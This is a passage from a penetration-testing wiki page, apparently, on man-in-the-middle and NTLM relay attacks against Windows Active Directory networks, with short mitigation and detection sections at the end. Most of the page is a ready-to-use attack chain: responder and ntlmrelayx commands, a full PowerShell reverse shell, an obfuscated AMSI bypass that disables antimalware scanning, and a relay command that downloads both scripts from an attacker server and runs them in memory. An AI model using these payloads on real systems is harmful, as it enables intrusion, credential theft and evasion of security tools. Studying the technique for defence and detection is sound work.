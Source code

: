# MitM & NTLM Relay

{% hint style="info" %}
#### For a full list of MitM techniques refer to[ MitM & poisoning](../../../network-attacks/network-poisoning-mitm/) section.
{% endhint %}

## <mark style="color:red;">RDP MitM</mark>

#### refer to[ this section](../../../network-attacks/network-poisoning-mitm/rdp-downgrade.md) .

## <mark style="color:red;">MS08-068</mark>

{% embed url="https://www.rapid7.com/blog/post/2008/11/11/ms08-068-metasploit-and-smb-relay" %}

{% embed url="https://msrc-blog.microsoft.com/2008/11/11/ms08-068-smb-credential-reflection-defense" %}

### <mark style="color:orange;">Metasploit Module</mark>

```
use exploit/windows/smb/smb_relay 
# windows2000 / windows server2008
```

## <mark style="color:red;">NTLM Relay</mark>

```
impacket-ntlmrelayx -tf targets.txt -wh hacker-wpad --delegate-access -smb2support --remove-mic
responder -I vboxnet0 --lm -v -P -F -w -d -b
```

## <mark style="color:red;">NTLM Relay + Empire</mark>

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://youtu.be/f9oMVoc2Umc" %}

## <mark style="color:red;">NTLM Relay + AMSI Bypass</mark>

{% hint style="info" %}
Combining NTLM relay with empire one-liners is not effective in a modern Active Directory Environment with latest windows security updates because AMSI has evolved and the payload is easily detected and blocked.
{% endhint %}

This technique will use the same principles of NTLM relay but with a simple trick to bypass AMSI and get a reverse shell, the AMSI  bypass script and reverse shell payload can be different but the one i am using here could bypass windows 10  pro update 1/20/2020 with windows defender and AMSI enabled.

#### <mark style="color:green;">find hosts with smb signing disabled:</mark>

```
crackmapexec smb 192.168.56.1/24 --gen-relay-list targets
```

#### <mark style="color:green;">simple powershell TCP reverse shell payload (catch with netcat or metasploit multi/handler):</mark>

{% code title="rev.ps1" %}
```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```
{% endcode %}

#### <mark style="color:green;">AMSI bypass payload (try using other payloads if this doesn't work):</mark>

{% code title="bypass.ps1" %}
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

#### <mark style="color:green;">run a python http server to serve these files:</mark>

```
python3 -m http.server 9000
```

#### <mark style="color:green;">run responder and ntlmrelayx with a powershell command to load the scripts in memory and execute them in the same powershell session (otherwise the bypass wont work):</mark>

```
 responder -I vboxnet0 -dw
 
 impacket-ntlmrelayx  --delegate-access -smb2support -tf targets -c "powershell -ep bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:9000/bypass.ps1');IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:9000/rev.ps1')"
```

now when responder gets new hashes, ntlmrelayx will relay them and if the login was successful, power powershell command will load bypass and reverse shell scripts in memory and execute both og them to bypass AMSI and we get a shell.

## <mark style="color:red;">Mitigation</mark>

* Enforce SM signing - turn on SMB Signing on all machines in the network.
* Block NTLMNv1- NTLMv1 is considered significantly less secure than its more recent version, the NTLMNv2.
* Enforce LDAP/S Signing- to prevent NTLM relay in LDAP, enforce LDAP signing and LDAPS channel binding on domain controllers.
* Enforce EPA- to prevent NTLM relay on web servers, harden them to accept only requests with EPA.
* _**Reduce NTLM usage-**_ even after all measures were taken. The best thing you can do is to simply reduce the NTLM usage. As NTLM poses a significant risk, it is recommended that you remove it where it is not needed.

{% hint style="success" %}
The only way to be totally safe from SMB/NTLM relay attacks is to completely disable NTLM authentication and  switch to Kerberos.

This might not always be possible as a lot of old services and applications have some issues with Kerberos.&#x20;
{% endhint %}

## <mark style="color:red;">Detection</mark>

* Get all NTLM logons where the session has admin privileges
* Get all hostnames and their IPs using one of the methods above
* Use left anti join to find logons where the **Network Address** in the NTLM logon event doesn’t match the IP of the host in step 2.

### <mark style="color:orange;">False Positive/Negative Considerations</mark> <a href="#1c97" id="1c97"></a>

* If you have load balancers or other devices that perform SNAT, authentications coming over these devices will be seen as relayed. These IPs need to be whitelisted. There is a false positive and false negative risk in this case.
* Devices that are not joined to a domain always perform NTLM authentication. Baselining with historical logon events will reduce false positives. Alternatively, hostname and IP address info can be obtained and whitelisted manually.
* NTLM relaying of machine accounts can’t be detected using the above logic if the machine logon events are used as the single source of truth for hostname — IP pair. This is a rare scenario but it might be critical like in the PetitPotam case. Critical computer accounts can be monitored using the same logic and using a manually created hostname-IP list. Since the attack surface most likely is the servers, DNS records might be a good option.
* Sometimes, the **Workstation Name/Network Address** doesn’t appear in the logs.

### <mark style="color:orange;">Bonus detection</mark> <a href="#429b" id="429b"></a>

The detection logic can also find devices that stopped sending events since the logic performs a logical NOT operation.
